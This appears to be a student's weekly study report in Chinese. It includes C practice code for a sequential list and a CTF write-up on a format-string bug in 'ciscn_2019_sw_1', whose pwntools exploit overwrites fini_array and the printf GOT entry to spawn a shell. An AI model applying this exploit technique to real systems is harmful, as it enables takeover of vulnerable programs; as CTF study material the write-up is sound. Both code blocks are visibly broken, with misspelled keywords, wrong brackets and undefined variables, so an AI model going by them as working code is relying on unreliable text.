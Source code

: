 # 寒假第二周周报

## 学习内容

* 二刷指针，函数，结构体
* 数据结构到双向链表
* pwn复习 格式化字符串漏洞
* 从pwn入门到厨师精通

### C语言

二刷指针函数结构体没什么可说的，主要是为了接下来学习数据结构做的复习，以下是学习时用的代码

~~~c
#include <stdio.h>
#include <string.h>
//与指针数组字符串关系紧密的头文件
#include <stdlib.h>
//与堆，内存分配关系紧密的头文件
#define IK 200
//定义宏
typedef int elem;
//因为我们不知道结构体中数组的最佳类型是什么，所以使用typedef
typedef struck{
elem data[IK];
int length;
}SepList;
//定义一个结构体，名称为SepList
void init(SepList *k){
    k->length=0;
}
//制造一个给结构体初始化的函数，因为改变了结构体内的数据，所以用了指针，不会遭到leave
int add_end(SepList *k,elem b){
    if(k->length>=IK){
        printf("满了捏\n");
        return 0;
    }
    //判断输入是否过多，数组空间是否有余
    k->data{k->length}=b;
    k->length++;
    //开始填东西
}
void print(SepList *k){
    for(int i=0;i<k->length;i++){
        printf("%d ",k->data[i]);
    }
    printf("\n");
}
//遍历
int insert(SepList *k,int p,elem b){
    if(k->length>=IK){
        printf("满了捏\n");
        return 0;
    }
    if(p<1||p>k->length){
        printf("插的地方不对\n"):
        return 0;
    }
    //两个判断，先来判断一下是不是数组满了，再判断一下是不是在数组中间进行插入
    if(p<=k->length){
        for(int i=k->length-1;i>=p-1;i--){
            k->data[i+1]=k->data[i];
        }
        //每个数据都往后退一个字长，来让要插入的位置有空位置
        k->data[p-1]=e;
        k->length++;
        //时时记得长度要增加
    }
    return 1;
}
~~~

以上也是数据结构时使用的练习，更多的找不到了，嘿嘿。

### 数据结构

* 时间复杂度的计算
* 顺序表，链表，双向链表，循环链表
* 栈，队列

### 格式化字符串漏洞

算是复习了，感觉学了好长时间了

#### ciscn_2019_sw_1

>没开pie还调用了system，那我们直接把printf改成system就差不多了，问题是只能改一次
>
>想起main函数也有返回地址所以我们可以直接改fini_array数组中的函数指针，变成main函数
>
>首先开dbg b *vuln然后run，用s调到printf调用的位置然后 stack一下看看保存地址距离printf的距离
>
>然后elf一下got和fini_array,找system的地址(这里需要分别处理二者的高十六位和低十六位，没做出来可能就是这个原因但至于为什么，估计在学完三十二位汇编之后答案会自己出来)
>
>so

```r.sendline
from pwn import *
context.log_level=debug
r=remote('',)
elf=ELF('pwnpw')
print_f=elf.got['print']
syst=elf.plt["system"]
array=0x0804979c
main=0x08048534

system_high = (system_plt >> 16) & 0xffff
system_low = system_plt & 0xffff
main_high = (main_addr >> 16) & 0xffff
main_low = main_addr & 0xffff
payload = p32(fini_array_addr + 2) + p32(printf_got + 2)
payload += p32(printf_got) + p32(fini_array_addr)
payload += b'%' + bytes(str(main_high - 0x10),"utf_8") + b'c%4$hn'
payload += b'%5$hn'
payload += b'%' + bytes(str(system_low - main_high),"utf-8") + b'c%6$hn'
payload += b'%' + bytes(str(main_low - system_low),"utf-8") + b'c%7$hn'
payload += b'\x00'

r.sendlineafter("name?\n",payload)
r.sendlineafter("name?\n",'/bin/sh\00')
r.interactive()
```

再与ctf直接相关的内容可能就是接触了几道misc了，社工，好玩。

### 从pwn入门到厨师精通

炸丸子，锅包肉，砂锅五花肉，饺子，肉末茄子

## 下周学习计划

* 数据结构
* 三十二位汇编和六十四位汇编（有可能看不到这么多）
* 从pwn入门到厨师精通



